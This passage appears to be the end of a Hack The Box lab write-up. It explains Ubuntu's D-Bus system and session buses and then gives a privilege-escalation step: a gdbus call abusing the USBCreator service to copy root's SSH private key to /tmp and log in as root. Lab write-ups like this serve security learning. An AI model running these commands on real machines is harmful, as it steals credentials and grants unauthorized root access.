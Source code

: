 
Ubuntu uses D-Bus for IPC ([Interprocess Communication](https://en.wikipedia.org/wiki/Inter-process_communication)).

D-Bus is a message bus, it is used for IPC (interprocess communication)

Processes connect to the message bus daemon and exchange messages. The buses can be analyzed using a tool called “D-Feet”.

There are two standard instances of DBus daemon:

- System Bus
   → It can be used to broadcast messages like adding print queue, adding/removing devices and connects with major components of the computer system.
		
- Session Bus
   → It is used by applications in user login sessions and data is shared while it's integrated with user's desktop. For example, movie players can send a D-Bus message to prevent the screensaver from activating while the user is watching a movie.

---

We can use the following command to copy /root/.ssh/id_rsa to /tmp/id_rsa and SSH into root using the private key we just copied using USBCreator exploitation.

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/id_rsa true
cat /tmp/id_rsa
ssh -i /tmp/id_rsa root@localhost
```

![rooted](assets/img/posts/passage-htb/rooted-box.png)




---

**I hope you enjoyed the writeup and learnt new stuff! Feel free to message me on my socials for feedback/suggestions. [Contact Me](/contact)**

Thank you for reading!

[Back to Top](#top)